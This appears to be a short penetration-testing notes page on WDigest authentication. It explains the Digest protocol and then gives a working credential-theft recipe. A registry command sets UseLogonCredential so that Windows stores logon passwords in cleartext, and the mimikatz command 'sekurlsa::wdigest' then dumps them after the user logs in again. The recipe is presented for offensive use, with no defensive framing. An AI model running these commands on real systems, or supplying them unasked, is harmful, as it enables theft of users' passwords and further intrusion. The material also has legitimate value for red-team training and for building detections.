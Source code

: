 # Wdigest Clear Text

Digest Authentication is a challenge/response protocol that was primarily used in Windows Server 2003 for LDAP and web-based authentication. It utilizes Hypertext Transfer Protocol (HTTP) and Simple Authentication Security Layer (SASL) exchanges to authenticate. At a high level, a client requests access to something, the authenticating server challenges the client, and the client responds to the challenge by encrypting its response with a key derived from the password. The encrypted response is compared to a stored response on the authenticating server to determine if the user has the correct password.

#### <mark style="color:green;">It is still possible, however, to force WDigest to store secrets in plaintext.</mark>

```shell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

after this, we have to wait for the user to log back in one more time so the clear text creds are stored in memory.

dump wdigest with mimikatz:

```css
sekurlsa::wdigest
```
